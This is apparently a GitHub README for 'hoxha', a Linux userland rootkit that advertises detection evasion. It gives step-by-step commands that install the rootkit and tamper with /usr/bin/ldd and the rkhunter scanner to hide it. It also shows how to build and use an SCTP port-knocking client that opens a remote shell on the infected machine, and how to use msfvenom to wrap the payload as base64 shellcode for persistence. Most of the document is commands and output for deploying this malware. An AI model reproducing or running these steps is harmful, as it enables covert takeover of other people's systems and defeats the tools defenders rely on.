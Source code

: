 # hoxha
A userland rootkit for x86_64 Linux that was meant to be everything <a href="https://github.com/mephistolist/tito">Tito</a> was not. As Enver Hoxha was Tito's next door neighbor and completely opposed in ideology, there was no more a fitting name. Hoxha was also known for being very paranoid, so a lot more detection-evasion was used.   

<p align="center">
  <img src="https://upload.wikimedia.org/wikipedia/commons/f/fe/Enver_Hoxha_%28portret%29.jpg" width="50%" height="50%" />
</p>

You can download this like so:
```
git clone https://github.com/mephistolist/hoxha.git
```
Then you can install the rootkit this:
```
cd hoxha/persistance && [ -f ./patchelf ] && chmod +x ./patchelf && make install clean && sed -i 's/try_trace \"$RTLD\" \"$file\" || result=1/try_trace \"$RTLD\" \"$file\" | grep -vE \"libc.so.4|libc.so.5\" || result=1/g' /usr/bin/ldd && [ -f $(which rkhunter) ]  && cp ./rkhunter $(which rkhunter) 2>/dev/null
```
On another device you can build the client with the following in the hoxha root directory:
```
cc client.c -o client -s -pipe -march=native -O2 -std=gnu17 -Wall -Wextra -pedantic -fno-stack-protector -fno-asynchronous-unwind-tables -fno-ident -ffunction-sections -fdata-sections -falign-functions=1 -falign-loops=1 --no-data-sections -falign-jumps=1 -falign-labels=1 -flto -fipa-icf -z execstack -Wl,-z,norelro -Wl,-O1 -Wl,--build-id=none -Wl,-z,separate-code -lsctp
```
The client can be used with just the destionation ip address where this rootkit is installed:
```
# ./client 127.0.0.1
[+] SCTP knock sequence sent.
[*] Connecting to SCTP shell at 127.0.0.1:5000...
[+] Connected. Type commands (type 'exit' to quit):
sctp-shell>
```
As SCTP ports are hard to close, I would suggest running this to exit the shell:
```
killall -9 hoxha && service cron restart
```
This will ensure that only one port is left listening for future connections.

If you wish to edit or just build the shell from source you can do so by just typing 'make' the root directory. Using 'make install' will give a binary at /usr/bin/hoxha. You can then run this with msfvenom:
```
msfvenom -p linux/x64/exec CMD=/usr/bin/hoxha -f raw -o shellcode.bin -b "\x00\x0a\x0d"
```
Then you can base64 the raw data like so:
```
cat shellcode.bin | base64
```
Add that base64 encoded string to the hoxha/persistance/libexec.c file and re-run the Makefile in the persistance folder and your changes should be running.

